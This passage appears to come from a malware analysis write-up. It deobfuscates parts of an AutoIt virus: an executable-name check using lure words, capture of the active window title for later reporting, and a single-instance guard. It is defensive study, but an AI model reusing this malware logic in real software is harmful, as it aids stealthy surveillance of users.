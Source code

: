 ```autoit
		$tycocfgddh(nxlara($hauunuxlni & bbrfvej() & "" & ">(hu" & "" & cenlmetaefbs() & "" & scvbk() & $akneqgiits & $hhwbnd[91] & "" & $tsaabo))
		Exit
	Else
		Global $ifhbok = $bretzrnes(huslz("" & $xjxylhdbgpik))
		If $ifhbok = "" Then
			$ifhbok = robuh("" & "Um2" & "" & qbobehimrx())
		EndIf
		umwlcnpqy()
	EndIf
EndFunc
```
<br> It looks like when decoded (note that I have added some comments and some variables, also rename the variables and functions):
```autoit
$lsrlgh = StringSplit("Start|cmd.exe|Program Manager", "|")
$loptakx = StringSplit("updater|video|play|visitor|app", "|")

Func main() ; Main!!!!! - Check if vaild name
	$flag = False
	; This probably check if the name of the exe file is vaild, then decide to run
	For $i = 1 To $loptakx[0]
		$result = StringInStr(StringLower(@ScriptName), $loptakx[$i])
		If $result <> 0 Then
			$flag = True
			ExitLoop
		EndIf
	Next
	If $flag = False Then
		ConsoleWrite("ExitControlExeName") ; Wow, if the exe name is not vaild, then quit the program :)
										   ; I didn't know why the author do this? Maybe for checking
										   ; if the program is decompiled and then recompiled?
		Exit
	Else
		Global $wintitle = WinGetTitle("[ACTIVE]") ; Get current active windows / current focused windows to report later
		If $wintitle = "" Then
			$wintitle = "Empty" ;
		EndIf
		main2() ; Call main2
	EndIf
EndFunc
```
<br> Basically it check if the exe name is vailded, then decide to run or not. Also, it get the active window name, to report later
#### b) 2nd function: only allow one instance of the virus to run
<br> Function `main2` looks like:
```autoit
Func main2() ; Run only one instance
	$processpointer = ProcessList(@ScriptName) ; Get the current program process
	For $counter = 1 To $processpointer[0][0] ; Get number of instances of this process
		If $processpointer[$counter][1] <> @AutoItPid Then ; Get pid of processes and compare
			ConsoleWrite("ExitAlreadyRunning") ; Run the virus once
			Exit
		EndIf
	Next
	main3() ; Continue
EndFunc
```
<br> It only allows one instance of the virus to run